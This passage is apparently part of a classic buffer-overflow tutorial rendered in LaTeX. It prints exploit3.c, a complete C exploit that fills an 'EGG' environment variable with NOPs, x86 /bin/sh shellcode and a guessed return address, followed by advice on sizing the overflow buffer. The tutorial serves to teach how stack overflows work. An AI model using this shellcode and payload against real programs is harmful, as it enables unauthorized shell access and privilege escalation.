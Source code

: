 \documentclass[a4paper]{article}
\begin{document}
The new exploits is then:


\begin{listing}[H]
\begin{verbatim}

#include <stdlib.h>

#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define NOP                            0x90

char shellcode[] =
	"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
	"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
	"\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
	__asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) {
	char *buff, *ptr;
	long *addr_ptr, addr;
	int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
	int i;

	if (argc > 1) bsize  = atoi(argv[1]);
	if (argc > 2) offset = atoi(argv[2]);

	if (!(buff = malloc(bsize))) {
		printf("Can't allocate memory.\n");
		exit(0);
	}

	addr = get_sp() - offset;
	printf("Using address: 0x%x\n", addr);

	ptr = buff;
	addr_ptr = (long *) ptr;
	for (i = 0; i < bsize; i+=4)
	*(addr_ptr++) = addr;

	for (i = 0; i < bsize/2; i++)
	buff[i] = NOP;

	ptr = buff + ((bsize/2) - (strlen(shellcode)/2));
	for (i = 0; i < strlen(shellcode); i++)
	*(ptr++) = shellcode[i];

	buff[bsize - 1] = '\0';

	memcpy(buff,"EGG=",4);
	putenv(buff);
	system("/bin/bash");
}

\end{verbatim}
\caption{exploit3.c}
\label{listing:1}
\end{listing}

A good selection for our buffer size is about 100 bytes more than the size of the buffer we are trying to overflow. This will place our code at the end of the buffer we are trying to overflow, giving a lot of space for the \texttt{NOPs}, but still overwriting the return address with the address we guessed. The buffer we are trying to overflow is \texttt{512} bytes long, so we’ll use \texttt{612}. Let’s try to overflow our test program with our new exploit:
\end{document}
